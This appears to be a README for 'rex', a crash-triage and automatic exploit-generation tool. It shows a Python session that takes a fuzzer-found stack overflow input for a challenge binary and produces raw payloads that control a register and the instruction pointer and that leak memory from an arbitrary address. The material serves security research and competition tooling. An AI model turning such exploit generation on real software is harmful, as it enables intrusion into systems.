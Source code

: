 ### Rex

At the moment rex offers two main features, crash triaging and exploitation for certain kinds of crashes.

In the example below we take a crashing input for `0b32aa01_01` discovered by AFL. The vulnerability is a simple buffer overflow on the stack.

Exploit objects can take an exploitable crashing input and will attempt to turn it into an exploit which can set
set every register and leak data from an arbitrary address.

```
>>> crash = rex.Crash("../binaries/cgc_scored_event_1/cgc/0b32aa01_01", "\x05\x00\xff\xff\x80\xff\xff\xff\x80\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xff\xff\x80\xf1\xf1\xf1\xeb\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\x00\xde\x7f\xff\x80\xff\xff\xff\x80\x0f\xff\xff\xff~\xf3\xff\xff\xff\xff\x7f\xff\xff\x80\xff\xff\xfe\xff\t\xfe\xfe\xfe\xfe\xfe\nWelc\xfeme to(Palindrome Fiwder\n\n\xff\xff\xff\xff\x80\xff\xff\xe8\x80\x0f\xff\xff\xff\x7f#\n")
>>> crash.exploitable()
True
>>> exploit = rex.Exploit(crash)
>>> exploit.initialize()
>>> # create an input which populates eax with 0x41414141 and crashes with eip at 0x58585858
>>> exploit.set_register("ebx", 0x41414141, final_ip=0x58585858) 
'\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\x00\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8e\x81\x04\x08\x00\x00\x00\x00\x84\xc5EIAAAAXXXX\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
>>> exploit.leak_address(0x8048530, 0x1000)
'\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xff\xff\x00\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8e\x81\x04\x08\x00\x00\x00\x00a\x84\x04\x08\x00\x10\x00\x000\x85\x04\x08\x01\x00\x00\x00A\x84\x04\x08\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
